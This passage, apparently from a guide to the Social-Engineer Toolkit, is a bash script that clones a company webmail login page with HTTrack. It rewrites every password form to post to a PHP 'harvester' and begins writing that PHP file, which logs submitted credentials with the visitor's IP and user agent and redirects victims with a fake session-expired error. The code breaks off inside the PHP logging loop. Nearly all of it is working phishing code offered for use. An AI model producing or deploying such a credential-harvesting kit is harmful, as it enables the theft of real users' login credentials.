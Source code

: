 For more sophisticated website cloning that handles dynamic content:

```bash
#!/bin/bash
# advanced_site_cloning.sh - Enhanced website cloning for SET

# Configuration
TARGET_URL="https://webmail.targetcompany.com"
OUTPUT_DIR="/var/www/html/clone"
LOG_FILE="/var/log/harvester.log"
REDIRECT_URL="https://webmail.targetcompany.com/login?error=session_expired"

# Install dependencies if needed
which httrack >/dev/null || apt-get -y install httrack
which apache2 >/dev/null || apt-get -y install apache2

# Create directories
mkdir -p "$OUTPUT_DIR"
mkdir -p "$(dirname "$LOG_FILE")"
touch "$LOG_FILE"
chmod 755 "$OUTPUT_DIR"
chmod 644 "$LOG_FILE"

# Clone the website with HTTrack
echo "Cloning $TARGET_URL..."
httrack "$TARGET_URL" -O "$OUTPUT_DIR" --depth=2 --ext-depth=1 --max-rate=250000 \
  --sockets=10 --connection-per-second=10 --max-time=180 --robots=0 -%v

# Create credential harvesting form
echo "Modifying login forms..."
FORMS=$(grep -r "form" "$OUTPUT_DIR" | grep -i "password" | cut -d: -f1)

for FORM_FILE in $FORMS; do
    # Backup original file
    cp "$FORM_FILE" "${FORM_FILE}.bak"
    
    # Modify form action to point to our harvester
    sed -i 's#<form [^>]*action="[^"]*"#<form action="harvester.php"#i' "$FORM_FILE"
done

# Create harvester script
cat > "$OUTPUT_DIR/harvester.php" << 'EOF'
<?php
$timestamp = date("Y-m-d H:i:s");
$ip = $_SERVER['REMOTE_ADDR'];
$user_agent = $_SERVER['HTTP_USER_AGENT'];
$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : "Direct";

$log_file = "/var/log/harvester.log";
$redirect_url = "https://webmail.targetcompany.com/login?error=session_expired";

// Open log file
$fp = fopen($log_file, "a");

// Log all POST data
$data = "============================\n";
$data .= "Timestamp: $timestamp\n";
$data .= "IP Address: $ip\n";
$data .= "User Agent: $user_agent\n";
$data .= "Referer: $referer\n";
$data .= "Form Data:\n";

foreach ($_POST as $key => $value) {
    $data .= "  $key: $value\n";
```